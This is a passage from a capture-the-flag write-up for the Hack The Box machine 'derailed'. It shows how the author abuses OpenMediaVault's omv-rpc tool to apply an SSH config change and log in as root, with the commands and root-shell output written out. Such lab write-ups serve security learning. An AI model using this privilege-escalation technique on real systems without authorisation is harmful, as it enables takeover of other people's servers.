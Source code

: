 ```xml
```
Now we have to find a way to apply these new config.

By searching online I found out that there should be some tools which name starts with `omv-`, so I ran a `find` and found that there are 2 interesting binaries:
```
omv-confdbadm, because it has conf in the name
omv-rpc, because it does some Remote Procedures Call
```
By searching `omv-confdbadm` on the docs, we get a description of what it does, which is:
```
omv-confdbadm is a tool written in python for retrieving, storing or deleting values from/to the database. This tool combined with jq [1] provides an easier method for interacting with the database using Shell/BASH.
```
Not really useful.
We also notice that there are only 3 binaries documented: `omv-salt`, `omv-confdbadm` and `omv-rpc`.

Moving on to `omv-rpc`, we observe that:
```
This tool can execute RPC commands. This is identical of what the web frontend uses to set/get information. It accepts service, method and parameters. RPC services can be found listed in engined/rpc folder
```
Maybe it can set information about the config.
After googling for "omv-rpc set config" and opening the first forum result, we see a command which looks like this:
```
sudo /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": $(cat /var/lib/openmediavault/dirtymodules.json),\"force\": true }"
```
After trying for something like:
```
sudo /usr/sbin/omv-rpc -u admin "config" "applyChanges" 
```
We can see a stacktrace, from there we can deduce that it is asking for a third parameter, if we pass "ssh" as module we get an error complaining that it's not an array, so we just wrap it up with parentheses. The final payload looks like this:
```
/usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"ssh\"],\"force\": true }"
```
If we execute it we get `null` and, if we try to login using the key, we can!
```
ssh -i id_ed25519 root@derailed.htb                                                                                                                                  0 (0.005s) < 20:25:58
Linux derailed 5.19.0-0.deb11.2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.19.11-1~bpo11+1 (2022-10-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul  8 14:15:23 2023 from 10.10.14.20
root@derailed:~#
```

